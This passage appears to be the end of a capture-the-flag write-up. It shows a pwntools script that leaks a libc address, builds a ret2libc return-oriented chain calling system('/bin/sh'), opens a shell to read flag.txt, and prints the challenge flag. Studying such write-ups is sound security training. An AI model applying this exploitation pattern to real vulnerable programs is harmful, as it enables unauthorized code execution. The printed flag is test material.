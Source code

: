 ```py

    libc.address = u64(libc_leak.ljust(8, b'\x00')) - (libc.symbols['puts'] - libc.address)
    bin_sh = next(libc.search(b'/bin/sh'))
    system = libc.symbols['system']
    io.success("libc address: {}".format(hex(libc.address)))
    io.success("/bin/sh address: {}".format(hex(bin_sh)))
    io.success("system address: {}".format(hex(system)))

    shell_payload = flat({
        fault: [
            ret,
            pop_rdi,
            bin_sh,
            system,
            ]
        })

    io.sendline(shell_payload)
    io.recvuntil(('Got: \n', 'Hello, \n'))
    io.recvline()

    io.sendline('cat flag.txt')
    flag = io.recvuntil('}')
    io.success("Flag: {}".format(flag))
    io.sendline('exit')
    io.recvuntil('flag>')
    io.sendline(flag)

    problem += 1

io.interactive()
```

## Flag

`flag{n0w_d0_th3_bunnyd4nc3}`

